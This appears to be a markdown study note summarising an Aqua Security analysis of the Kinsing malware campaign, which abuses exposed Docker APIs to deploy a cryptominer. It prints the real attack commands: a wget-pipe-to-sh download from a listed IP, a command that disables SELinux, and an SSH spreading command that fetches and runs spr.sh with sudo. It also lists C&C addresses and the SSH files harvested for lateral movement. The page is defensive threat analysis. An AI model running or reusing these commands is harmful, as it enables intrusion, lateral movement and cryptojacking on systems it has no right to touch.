 ```yaml
---

title: " Kinsing Malware Attack "
description: "  "

---
```


# Kinsing Malware Attack  


Aqua Security Researchers discovered a malware crypto-mining campaign in April 2020  which abuses systems running misconfigured Docker services. 


In this attack, the attackers exploit a misconfigured Docker API port to run an Ubuntu  container with the ‘kinsing’ malicious malware (Golang-based Linux Agent), which in turn  runs a crypto-miner and then attempts to spread the malware to other containers and hosts.  Attack Initiation: Instantiating an Ubuntu container with unprotected open Docker API port. 


attack initialion :- Instantiating an ubuntu container with unprotected open Docker API port 

```

/bin/bash -c apt-get update && apt-get install -y wget cron;service cron start; wget -q -O - 142.44.191.122/d.sh | sh;tail -f /dev/null

```

the command does the following 
- Update packages with `apt-get update` 
- Install ‘wget’ with `apt-get`  
- Start the cron service  
- Download a shell script with the just installed `wget`  
-  Run the shell script and read indefinitely from `/dev/null` to keep the container alive and running. 


- Associated IP addresses for downloading `d.sh`:
1) 142.44.191.122
2) 217.12.221.244
3) 185.92.74.42


# Defense Evasion and Persistence

The shell script d.sh, referred to from hereon as `the shell script`, contains more than 600 lines. We discovered that the shell script does the following:

Disables security measures and clears logs:` echo SELINUX=disabled >/etc/selinux/config`
Kills numerous applications, notably other malwares and cryptominers.
Deletes files related to other malwares/cryptominers, most of them from the /tmp directory
Kills running rival malicious Docker containers and deletes their image.
Downloads the ‘kinsing’ malware and runs it
Uses crontab to download and run the shell script every minute
Looks for other commands running in cron, and if ones were identified, deletes all cron jobs, including its own. We are not certain why the attackers chose to do so, but that is what the script executes:
`crontab -l | sed '/update.sh/d' | crontab -`


A quick look at the malware’s strings reveals that it is a Golang-based Linux agent. It uses several Go libraries, including:

- go-resty – an HTTP and REST client library, used to communicate with a Command and Control (C&C) server.
- gopsutil – a process utility library, used for system and processes monitoring.
- osext – extension to the standard ‘os’ package, used to execute binaries.
- diskv - A disk-backed key-value store, for storage.
- Running the malware in a controlled environment and monitoring it brought up more details about its malicious actions.

# Communication with C&C servers

Before the malware proceeded to deploy its payload, it attempted to communicate with servers in Eastern Europe. It appears that there are dedicated servers for each function that the malware executes:

- Attempts to establish a connection with the following IP address: 45.10.88.102. The attempts fail as the server does not respond.
- Connects to 91.215.169.111, which appears to be the main C&C server. The malware communicates with that host over HTTP port 80, and sends small encrypted messages on regular intervals, every few seconds.
- Connects to 217.12.221.244/spre.sh, which we presume stands for spread, as we will see in the next paragraph, to download a shell script used for lateral movement purposes.
- Connects to 193.33.87.219 to download the cryptominer C&C communication.

# Discovery and Lateral Movement
The spre.sh shell script that the malware downloads is used to laterally spread the malware across the container network.

In order to discover potential targets and locate the information it needs to authenticate against, the script passively collects data from`/.ssh/config, .bash_history, /.ssh/known_hosts`, and the likes. We did not identify any active scanning techniques used to identify additional targets.

Using the information gathered, the malware then attempts to connect to each host, using every possible user and key combination through SSH, in order to download the aforementioned shell script and run the malware on other hosts or containers in the network.

The actual shell script is named spr.sh this time around, but it is identical to the a d.sh shell script used earlier in the attack sequence

The following SSH command was used to spread it throughout the network:

```
ssh -oStrictHostKeyChecking=no -oBatchMode=yes -oConnectTimeout=5 -i $key $user@$host -p$sshp "sudo curl -L http://217.12.221.244/spr.sh|sh; sudo wget -q -O - http://217.12.221.244/spr.sh|sh;"

```




We noticed a comment in the script for a 20 seconds sleep after every 20 SSH connection attempts, and their cleanup, possibly indicating that the attackers have some sense of evasion and were trying to hide their activities.

At the last stage of the attack the malware runs a cryptominer called kdevtmpfsi. The cryptominer was identified by Virus Total as a Bitcoin miner.

The cryptominer connects to a host with the 193.33.87.219 IP address using a log in request over HTTP, receives further instructions, and starts mining cryptocurrency.

The infographic below illustrates the full flow of the attack:

![](/img/KinsingMalwareInfography.png)


credit - https://blog.aquasec.com/threat-alert-kinsing-malware-container-vulnerability
